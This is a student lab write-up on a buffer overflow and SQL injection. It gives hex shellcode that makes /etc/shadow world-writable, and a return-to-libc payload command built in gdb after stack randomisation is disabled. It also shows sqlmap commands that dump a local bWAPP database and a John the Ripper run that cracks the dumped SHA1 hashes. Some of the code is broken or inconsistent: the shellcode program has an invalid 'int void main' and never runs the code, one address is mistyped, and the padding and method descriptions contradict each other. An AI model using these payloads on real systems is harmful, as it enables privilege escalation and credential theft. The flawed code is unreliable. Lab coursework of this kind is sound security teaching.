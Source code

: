 # Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  
Description text (optional)
- We'll create 2 file `taskbuffer.c` and `shellcode.c` that contains 2 code content above
- Here is the stack frame `taskbuffer.c` program:
![stackframe](image-1.png)

- Compile `taskbuffer.c` program and `shellcode.c` program to executable code.
      
![img0](image-2.png)

- We will use Code Insert to insert shellcode directly into the program.
- We will create a payload that includes:
- First 16 bytes to fill the buffer.
- The shellcode address to override the program's return address.
- Use an older bash and turn off randomly given stack value.

![img1](image-3.png)

- Create environmet variable `nhu` with `export`
  
![img2](image-4.png)

- We need to find the address of `system`, `exit` and `nhu` variable and load `taskbuffer.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `nhu`: `0xffffde58` will be inserted with format `\x58\xde\xff\xff`
 
![img3](https://github.com/user-attachments/assets/cfe172ed-b234-4c03-8190-4f101d198441)

- Examine the stack frame. We need to add 20 bytes of padding, followed by the system address (4 bytes), exit (4 bytes), and preload (4 bytes). Thus, this is our directive:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x58\xde\xff\xff')")
```
![frame-system](https://github.com/user-attachments/assets/200582bf-198b-48b6-8522-e91b596af9ac)
![img4](https://github.com/user-attachments/assets/7eda45ff-b92b-43a1-8199-a9f8d24dd397)


output screenshot (optional)

- Before
  
![img5]()

- After

![win]()


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: 
- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --batch
```
![sql2](image-5.png) 

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: 
- Use the command below to get tables
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --tables --batch

```
![sql3](image-6.png)

- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dump --batch
```
![sql4](image-8.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- We already dumpped and stored the hashed password to a file for further exploit.
- To identity the hash algorithm, we will use hashid which is a library in python (hashid -mj hash_pw.txt)
![alt text](image-13.png)
- According to Hashid, john, notably the raw-sha1 format, can be used to crack the encryption: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```
![alt text](image-11.png)
